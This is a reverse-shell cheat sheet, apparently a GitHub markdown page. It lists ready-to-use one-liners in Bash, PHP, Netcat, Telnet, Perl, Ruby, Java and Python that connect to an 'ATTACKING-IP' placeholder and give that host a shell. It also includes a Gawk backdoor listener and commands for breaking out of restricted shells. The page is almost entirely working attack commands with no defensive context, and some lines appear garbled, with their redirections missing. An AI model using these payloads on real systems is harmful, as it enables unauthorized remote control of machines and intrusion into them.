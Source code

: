 # Reverse Shell

### Bash Reverse Shells

`exec /bin/bash 0&0 2>&0`

`0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196`
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done 

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

`bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`

### PHP Reverse Shell


`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`

**(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)**


### Netcat Reverse Shell

`nc -e /bin/sh ATTACKING-IP 80`

`/bin/sh | nc ATTACKING-IP 80`

`rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p`


### Telnet Reverse Shell

`rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p`

`telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443`

**Remember to listen on 443 on the attacking machine also.**

### Perl Reverse Shell

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Perl Windows Reverse Shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Ruby Reverse Shell

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java Reverse Shell

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Gawk Reverse Shell

```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```
# Breaking Out of Limited Shells

**Python:**

`python -c 'import pty;pty.spawn("/bin/bash")'`

`echo os.system('/bin/bash')`

`/bin/sh -i`

